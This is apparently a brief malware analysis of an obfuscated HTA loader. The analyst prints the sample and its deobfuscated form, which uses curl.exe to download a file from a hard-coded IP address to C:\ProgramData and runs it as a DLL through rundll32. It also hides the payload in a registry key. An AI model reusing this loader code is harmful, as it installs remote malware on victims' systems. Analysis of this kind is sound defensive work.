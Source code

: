 The JavaScript code here doesn't have that much obfuscation. 

```html
<html>
<div id="content">f5&u5&n5&c5&t5&i5&o5&n5& 5&s5&l5&e5&e5&p5&(5&m5&i5&l5&l5&i5&s5&)5&{5&v5&a5&r5& 5&d5&a5&t5&e5& 5&=5& 5&n5&e5&w5& 5&D5&a5&t5&e5&(5&)5&;5&v5&a5&r5& 5&c5&u5&r5&D5&a5&t5&e5& 5&=5& 5&n5&u5&l5&l5&;5&d5&o5& 5&{5& 5&c5&u5&r5&D5&a5&t5&e5& 5&=5& 5&n5&e5&w5& 5&D5&a5&t5&e5&(5&)5&;5& 5&}5&w5&h5&i5&l5&e5&(5&c5&u5&r5&D5&a5&t5&e5& 5&-5& 5&d5&a5&t5&e5& 5&<5& 5&m5&i5&l5&l5&i5&s5&)5&;5&}5&/5&*5&*5& 5&v5&a5&r5& 5&u5&r5&l5& 5&=5& 5&"5&h5&t5&t5&p5&s5&:5&/5&/5&g5&o5&o5&g5&l5&e5&.5&c5&o5&m5&"5&;5& 5&*5&/5&n5&e5&w5& 5&A5&c5&t5&i5&v5&e5&X5&O5&b5&j5&e5&c5&t5&(5&"5&w5&s5&c5&r5&i5&p5&t5&.5&s5&h5&e5&l5&l5&"5&)5&.5&r5&u5&n5&(5&"5&c5&u5&r5&l5&.5&e5&x5&e5& 5&-5&-5&o5&u5&t5&p5&u5&t5& 5&C5&:5&\5&\5&P5&r5&o5&g5&r5&a5&m5&D5&a5&t5&a5&\5&\5&i5&n5&d5&e5&x5&15&.5&p5&n5&g5& 5&-5&-5&u5&r5&l5& 5&"5& 5&+5& 5&u5&r5&l5&,5& 5&05&)5&;5&s5&l5&e5&e5&p5&(5&15&55&05&05&05&)5&;5&v5&a5&r5& 5&s5&h5&e5&l5&l5& 5&=5& 5&n5&e5&w5& 5&A5&c5&t5&i5&v5&e5&X5&O5&b5&j5&e5&c5&t5&(5&"5&s5&h5&e5&l5&l5&.5&a5&p5&p5&l5&i5&c5&a5&t5&i5&o5&n5&"5&)5&;5&s5&h5&e5&l5&l5&.5&s5&h5&e5&l5&l5&e5&x5&e5&c5&u5&t5&e5&(5&"5&r5&u5&n5&d5&l5&l5&35&25&"5&,5& 5&"5&C5&:5&\5&\5&P5&r5&o5&g5&r5&a5&m5&D5&a5&t5&a5&\5&\5&i5&n5&d5&e5&x5&15&.5&p5&n5&g5&,5&W5&i5&n5&d5&"5&,5& 5&"5&"5&,5& 5&"5&o5&p5&e5&n5&"5&,5& 5&35&)5&;5&</div>
<script language="javascript">
var h3 = "800de15c79c8d840f4e78d3af937d4d4";
var content = document.getElementById("content").innerText;
</script>
<script language="vbscript">
Dim WshShell : Set WshShell = CreateObject("WScript.Shell")
' Write reg
WshShell.RegWrite "HKCU\SOFTWARE\Xeonitox\MP3Conv\Cfg", content, "REG_SZ"
' msgbox WshShell.RegRead("HKCU\SOFTWARE\Xeonitox\MP3Conv\Cfg")
</script>
<script language="javascript">
var body = WshShell.RegRead("HKCU\\SOFTWARE\\Xeonitox\\MP3Conv\\Cfg");
var func = Function("url", body.replace(/5&/g, ""));
func("http://139.99.117.17/39444.dat");
</script>
<script language="vbscript">
WshShell.RegDelete("HKCU\SOFTWARE\Xeonitox\MP3Conv\Cfg")
' Close window
window.close
</script>
</html>
```

It's just a simple replacement for the "5&" with nothing.
here is the deobfuscated code.

```js
function sleep(millis){
  var date = new Date();
  var curDate = null;
  do { 
    curDate = new Date();
     }
     while(curDate - date < millis);
   }/** var url = "https://google.com"; */
   new ActiveXObject("wscript.shell").run("curl.exe --output C:\\ProgramData\\index1.png --url " + url, 0);
   sleep(15000);
   var shell = new ActiveXObject("shell.application");shell.shellexecute("rundll32", "C:\\ProgramData\\index1.png,Wind", "", "open", 3);
```
The Script is pretty easy it's just downloading a file from a remote server and executing it using "rundll32" So it's downloading a dll file and passing the parameter "wind" to the rundll32 also with a parameter to png file which may be for evasion reasons.
